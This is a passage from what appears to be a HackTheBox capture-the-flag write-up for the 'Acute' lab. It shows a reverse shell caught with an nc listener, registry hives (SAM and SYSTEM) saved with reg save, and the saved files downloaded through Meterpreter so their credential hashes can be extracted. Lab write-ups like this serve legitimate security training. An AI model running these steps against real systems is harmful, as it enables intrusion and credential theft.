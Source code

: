 It hangs, but there’s a shell at `nc`:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.145 49877
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Users\jmorgan\Documents>

```

Alternatively, I could modify it to add edavies to the administrators group, and get equivalent access.

## Execution as awallace on ATSSERVER

### Get Password

#### Dump Hives

As a local administrator on Acute-PC01, jmorgan can create backups of the registry hives:

```

PS C:\Utils> reg save HKLM\sam sam.bak
The operation completed successfully.
PS C:\Utils> reg save HKLM\system sys.bak
The operation completed successfully.

```

If I want copies, I have to create copies, as I can’t directory open the running hive files.

Since I have a Meterpreter session on the box, I’ll use that to download the files:

```

meterpreter > download sam.bak
[*] Downloading: sam.bak -> ~/hackthebox/acute-10.10.11.145/sam.bak
[*] Downloaded 56.00 KiB of 56.00 KiB (100.0%): sam.bak -> ~/hackthebox/acute-10.10.11.145/sam.bak
[*] download   : sam.bak -> ~/hackthebox/acute-10.10.11.145/sam.bak
meterpreter > download sys.bak
[*] Downloading: sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak
[*] Downloaded 1.00 MiB of 11.58 MiB (8.64%): sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak
...[snip]...
[*] Downloaded 11.58 MiB of 11.58 MiB (100.0%): sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak
[*] download   : sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak

```

#### Get Hashes
